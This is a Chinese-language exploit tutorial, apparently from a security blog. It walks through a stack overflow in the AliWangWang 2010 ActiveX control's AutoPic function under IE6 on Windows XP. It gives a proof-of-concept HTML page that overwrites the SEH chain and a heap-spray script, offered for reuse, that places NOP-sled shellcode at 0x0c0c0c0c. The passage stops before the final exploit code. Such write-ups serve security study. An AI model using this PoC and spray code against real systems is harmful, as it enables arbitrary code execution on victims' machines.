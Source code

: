 这里用的漏洞是 阿里旺旺2010 的 ActiveX控件的一个栈溢出漏洞, 测试环境为 xp sp3 IE6,可以通过在控制面板中卸载 ie8 得到 ie6漏洞的原理是 其控件的 imageMan.dll 中的AutoPic 函数由于未对参数的长度进行有效的检测 ,导致存在栈溢出漏洞.先用一段小html代码验证下漏洞是否是这样.

poc代码如下:



```
&lt;html&gt;
 &lt;body&gt;
 &lt;object classid="clsid:128D0E38-1FF4-47C3-B0F7-0BAF90F568BF" id="target"&gt;&lt;/object&gt;
 &lt;script&gt;
 var buffer = '';
 while (buffer.length &lt; 1111) buffer+="A";
 target.AutoPic(buffer,"defaultV");
 &lt;/script&gt;
 &lt;/body&gt;
&lt;/html&gt;
```

其大致流程为, 获取 ActiveX控件 对象, 之后调用 对象的 AutoPic 方法,并向它传入 很长的一段 A ,来触发漏洞.打开浏览器, 用调试器附加上去, 打开 poc 页面, 出发异常 , 查看 SEH 链 ,可以看到 SEH 链的被覆盖

[![](https://p1.ssl.qhimg.com/t011605bfba8722a5ee.png)](https://p1.ssl.qhimg.com/t011605bfba8722a5ee.png)

我们就能利用 SEH 来实现任意代码执行.同时可以看到,此时的栈并没有我们的输入数据,故我们应该使用 堆喷射技术 将咱们的 shellcode 喷射到可预测的地址来完成最后的漏洞利用.这里给出一个可以在 IE 6, 7上稳定喷射内存到 0x0c0c0c0c 地址处的堆喷射脚本, 以后要喷射内存时,直接贴到 exp 前面使用即可.



```
&lt;html&gt;
&lt;script &gt;
var shellcode = unescape('%u4141%u4141');
var bigblock = unescape('%u9090%u9090');
var headersize = 20;
var slackspace = headersize + shellcode.length;
while (bigblock.length &lt; slackspace) bigblock += bigblock;
var fillblock = bigblock.substring(0,slackspace);
var block = bigblock.substring(0,bigblock.length - slackspace);
while (block.length + slackspace &lt; 0x40000) block = block + block + fillblock;
var memory = new Array();
for (i = 0; i &lt; 500; i++)`{` memory[i] = block + shellcode `}`
&lt;/script&gt;
&lt;script&gt;
(1);
&lt;/script&gt;
&lt;/html&gt;
```

会创建由一大块 由nop指令 + shellcode 的内存块,之后重复分配 500次,以将数据块喷射到 0x0c0c0c0c处.我们来看看是否能喷射内存到可预测的地址上去,保存 上述内容到一个文件中 ,用调试器附加到 IE浏览器上打开 poc 文件,在 弹出 1 对话框时 ,在调试器中将 ie进程中断下来,查看 0x0c0c0c0c 处的内存数据.

[![](https://p2.ssl.qhimg.com/t01a4ffec7d27a35895.png)](https://p2.ssl.qhimg.com/t01a4ffec7d27a35895.png)

可 以看到 地址 0x0c0c0c0c 处的值为 大量的 0x90(即 nop指令的16进制)  从堆喷射脚本可以知道 该地址位于我们 nop + shellcode 块的 nop 区 ,如果我们将 eip 劫持到 0x0c0c0c0c 处, 程序就会执行大量的 nop 指令,最后会执行到我们的 shellcode 中.  那么,我将最初那个触发漏洞脚本的内容贴到 堆喷射代码的后面 ,并改变传入漏洞函数的参数为 一大串的 “x0c”  ,并添加上我们的 shellcode 这里我用的是 弹出一个计算器.最终的 exploit 代码:
